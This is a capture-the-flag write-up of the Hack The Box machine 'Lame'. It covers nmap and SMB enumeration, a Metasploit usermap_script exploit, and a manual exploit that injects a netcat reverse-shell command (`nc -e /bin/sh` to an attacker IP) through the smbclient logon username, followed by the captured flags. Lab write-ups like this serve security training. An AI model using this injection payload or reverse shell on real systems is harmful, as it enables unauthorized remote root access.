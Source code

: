 ```yaml
---
layout: single
title: Lame - Hack The Box
excerpt: "N/A"
date: 2019-04-12
classes: wide
header:
  teaser: /assets/images/htb-writeup-lame/lame_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
  unreleased: false
categories:
  - hackthebox
tags:  
  - linux
  - smb
  - anonymous
  - logon
---
```


![](/assets/images/htb-writeup-lame/lame_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------

# User
## Enumeration
```bash
root@nidus:/git/thm# nmap -Pn -sC -sV -n 10.10.10.3
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-30 10:09 CEST
  Nmap scan report for 10.10.10.3
  Host is up (0.035s latency).
  Not shown: 996 filtered ports
  PORT    STATE SERVICE     VERSION
  21/tcp  open  ftp         vsftpd 2.3.4
  |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
  | ftp-syst:
  |   STAT:
  | FTP server status:
  |      Connected to 10.10.14.4
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      vsFTPd 2.3.4 - secure, fast, stable
  |_End of status
  22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
  | ssh-hostkey:
  |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
  |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

  Host script results:
  |_clock-skew: mean: -3d00h51m31s, deviation: 2h49m45s, median: -3d02h51m34s
  | smb-os-discovery:
  |   OS: Unix (Samba 3.0.20-Debian)
  |   Computer name: lame
  |   NetBIOS computer name:
  |   Domain name: hackthebox.gr
  |   FQDN: lame.hackthebox.gr
  |_  System time: 2020-07-27T01:17:55-04:00
  | smb-security-mode:
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_smb2-time: Protocol negotiation failed (SMB2)
```

### SMB
Login in to the ftp with anonymous:anonymous we find nothing of use. Enumerate the SMB shares using smbmap and smbclient.

```bash
root@nidus:/git/htb/lame# smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445	Name: 10.10.10.3
        Disk                                                  	Permissions	Comment
  ----                                                  	-----------	-------
  print$                                            	NO ACCESS	Printer Drivers
  tmp                                               	READ, WRITE	oh noes!
  opt                                               	NO ACCESS
  IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
  ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
```

The share tmp seems interesting, both read and write permissions - lets enumerate more there.


> **NOTE:**
>
> If you're experiencing this error when trying to list with smbclient: "protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED".
> Then go ahead and add the following two lines to `/etc/samba/smb.conf` under `[global]`:
> ```bash
>  client min protocol = NT1
>  client max protocol = SMB3
> ```


```bash
root@nidus:/git/htb/lame# smbclient \\\\10.10.10.3\\tmp
  smb: \> ls
  .                                   D        0  Mon Jul 27 07:50:50 2020
  ..                                 DR        0  Sun May 20 20:36:12 2012
  5145.jsvc_up                        R        0  Mon Jul 27 07:17:46 2020
  .ICE-unix                          DH        0  Mon Jul 27 07:16:41 2020
  .X11-unix                          DH        0  Mon Jul 27 07:17:08 2020
  .X0-lock                           HR       11  Mon Jul 27 07:17:08 2020
```

There's nothing of direct use for us in here either. Instead we change the approach and look for known samba vulnerabilities.

Using searchsploit we look for any direct vulnerabilities of Samba version 3.0.20.

```bash
root@nidus:/git/htb/lame# searchsploit samba 3.0.20
  ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                                                                              |  Path
  ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
  ..
  Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                            | unix/remote/16320.rb
  ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Direct we find a msf module available. Turns out this module gives us instant root. Grab root.txt and user.txt

```bash
  msf5 auxiliary(scanner/ssh/ssh_enumusers) > use exploit/multi/samba/usermap_script
  msf5 exploit(multi/samba/usermap_script) > set lhost 10.10.14.4
  msf5 exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
  msf5 exploit(multi/samba/usermap_script) > run

    [*] Started reverse TCP handler on 10.10.14.4:4444
    [*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:46617) at 2020-07-30 10:53:52 +0200

    whoami
      root
    pwd
      /
    cat /root/root.txt
      92caac3be140ef409e45721348a4e9df
    ls -al /home
      total 24
      drwxr-xr-x  6 root    root    4096 Mar 14  2017 .
      drwxr-xr-x 21 root    root    4096 May 20  2012 ..
      drwxr-xr-x  2 root    nogroup 4096 Mar 17  2010 ftp
      drwxr-xr-x  2 makis   makis   4096 Mar 14  2017 makis
      drwxr-xr-x  2 service service 4096 Apr 16  2010 service
      drwxr-xr-x  3    1001    1001 4096 May  7  2010 user
    cat /home/makis/user.txt
      69454a937d94f5f0225ea00acd2e84c5
```

### Or manually without metasploit: 

Logging in as anonymous user on the smb-service we find that 'logon' option is available.
We can exploit this directly to get a reverse shell.

**(a)** Verify options with '?' or 'help'
```bash
smbclient \\\\10.10.10.3\\tmp\\
smb: \> ?
  [..]
  wdel           logon          listconnect    showconnect    tcon
```

**(b)** Setup a reverse shell to your box
```bash
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.10 4488`"
  Password:
  session setup failed: NT_STATUS_IO_TIMEOUT
```

**(c)** Grab the incomming session
```bash
[root:/git/htb/lame]# nc -lvnp 4488                                                                                               (master✱)
listening on [any] 4488 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.3] 58543
  whoami
  root
  python -c 'import pty;pty.spawn("/bin/bash")';
  root@lame:/root# cat root.txt
    cat root.txt
    744e9fa96f4e8423020ccb841c60e4d2
```

